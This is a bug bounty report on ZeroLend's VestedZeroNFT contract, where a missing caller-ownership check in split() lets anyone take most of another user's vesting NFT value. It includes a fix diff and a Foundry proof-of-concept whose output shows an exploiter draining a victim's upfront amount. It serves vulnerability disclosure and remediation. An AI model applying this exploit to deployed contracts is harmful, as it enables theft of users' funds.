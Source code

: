 
# all NFTs can be stolen by calling VestedZeroNFT::split()

Submitted on Mar 13th 2024 at 11:27:54 UTC by @EricTee for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29288

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/zerolend/governance

Impacts:
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

Wrong implementation in `VestedZeroNFT::split()` causes users' NFT to be stolen by anyone. Specifically, the problem arises from the `ERC721Upgradeable.sol::_requireOwned` check in `VestedZeroNFT::split()`  which fails to check the caller is the owner of the NFT, allow anyone to split the `pendingAmount` and `upfrontAmount` of any `tokenId` up to 99%.

## Vulnerability Details

In `VestedZeroNFT::split()`:
```
 function split(
        uint256 tokenId,
        uint256 fraction
    ) external whenNotPaused nonReentrant {
        _requireOwned(tokenId);

// REDACTED by erictee
```
the `_requireOwned` check is not implemented correctly. Let's take a look at `ERC721Upgradeable.sol::_requireOwned` in Openzeppelin:
```
 function _requireOwned(uint256 tokenId) internal view returns (address) {
        address owner = _ownerOf(tokenId);
        if (owner == address(0)) {
            revert ERC721NonexistentToken(tokenId);
        }
        return owner;
    }
```
This function only return the address of the NFT owner but never revert if the caller is not the NFT owner. Therefore, anyone can call `VestedZeroNFT::split()` with any `tokenId` and to steal `pendingAmount` and `upfrontAmount` up to 99%.


## Impact Details

Direct theft of any user rewards.

## Recommendation

Consider making the following changes in `VestedZeroNFT::split()`:

```diff
 function split(
        uint256 tokenId,
        uint256 fraction
    ) external whenNotPaused nonReentrant {
--        _requireOwned(tokenId);
++       require(msg.sender == _requireOwned(tokenId), "NFT Owner only!"); 
// REDACTED by erictee
```

## References
https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L234


## Proof of Concept

* Install foundry.
* Rename the original test folder to `hardhat-test` and create a new folder name `test`.
* Add forge-std module to lib with command: `git submodule add https://github.com/foundry-rs/forge-std lib/forge-std`
* add `remappings.txt` file in `contracts` folder with the following content:

```
@ethereum-waffle/=node_modules/@ethereum-waffle/
@layerzerolabs/=node_modules/@layerzerolabs/
@openzeppelin-3/=node_modules/@openzeppelin-3/
@openzeppelin/=node_modules/@openzeppelin/
@prb/=node_modules/@prb/
@sablier/=node_modules/@sablier/
@uniswap/=node_modules/@uniswap/
@zerolendxyz/=node_modules/@zerolendxyz/
base64-sol/=node_modules/base64-sol/
erc721a/=node_modules/erc721a/
eth-gas-reporter/=node_modules/eth-gas-reporter/
forge-std/=lib/forge-std/src/
hardhat-deploy/=node_modules/hardhat-deploy/
hardhat/=node_modules/hardhat/
ds-test/=lib/forge-std/lib/ds-test/src/
```

* Add `VestedZeroNFT.t.sol` file within test folder with the following content:

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {VestedZeroNFT} from "../contracts/vesting/VestedZeroNFT.sol";
import {ZeroLend} from "../contracts/ZeroLendToken.sol";
import {StakingBonus} from "../contracts/vesting/StakingBonus.sol";
import {IVestedZeroNFT} from "../contracts/interfaces/IVestedZeroNFT.sol";
contract VestedZeroNFTTest is Test {
   
    address public admin;
    VestedZeroNFT public vesting;
    ZeroLend public zero;
    StakingBonus public stakingbonus;
    address public bob;
    address public exploiter;

    function setUp() public {
        vesting = new VestedZeroNFT();
        zero = new ZeroLend();
        stakingbonus = new StakingBonus(); //erictee: no need to init here as this is for testing.

        vesting.init(address(zero),address(stakingbonus));
        bob = makeAddr("BOB");
        exploiter = makeAddr("EXPLOITER");

        zero.togglePause(false);

    }

    
    function test_correct() external {
        console.log(address(vesting));
        console.log(address(vesting.zero()));
        console.log(zero.balanceOf(address(this)));
    }
    
    function test_StealAmountBySplitting() external {
        // preparation
        zero.approve(address(vesting), type(uint256).max);
        vesting.mint(
        bob, 
        15e18,   // 15 ZERO linear vesting
        5e18,  // 5 ZERO upfront
        1000,  // linear duration - 1000 seconds
        500,  // cliff duration - 500 seconds
        block.timestamp + 1000,  // unlock date
        false,   // penalty -> false
        IVestedZeroNFT.VestCategory.PRIVATE_SALE // 0
        );  // Same config as typescript testcase.

        vm.warp(block.timestamp + 1000); //fast forward to unlock date.

       (uint256 upfrontBefore, uint256 pendingBefore ) = vesting.claimable(1); // tokenId = 1
       console.log("UPFRONT BOB Before: ", upfrontBefore);
       console.log("PENDING BOB Before: ", pendingBefore);

       vm.startPrank(exploiter);
       vesting.split(1, 1); // tokenId = 1 , fraction =1 

    
       vm.stopPrank();

       (uint256 upfrontExploiter, uint256 pendingExploiter) = vesting.claimable(2); // exploiter owns the tokenId 2 
       console.log("UPFRONT EXPLOITER: ", upfrontExploiter);
       console.log("PENDING EXPLOITER: ", pendingExploiter);



       (uint256 upfrontAfter, uint256 pendingAfter ) = vesting.claimable(1); // tokenId = 1
       console.log("UPFRONT BOB After: ", upfrontAfter);
       console.log("PENDING BOB After: ", pendingAfter);


    }
}
```

* Finally, run the foundry test with :  `forge test --match-test test_StealAmountBySplitting -vv`

Foundry Result:
```
Running 1 test for test/VestedZeroNFT.t.sol:VestedZeroNFTTest
[PASS] test_StealAmountBySplitting() (gas: 656485)
Logs:
  UPFRONT BOB Before:  5000000000000000000
  PENDING BOB Before:  0
  UPFRONT EXPLOITER:  4999500000000000000
  PENDING EXPLOITER:  0
  UPFRONT BOB After:  500000000000000
  PENDING BOB After:  0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.15ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

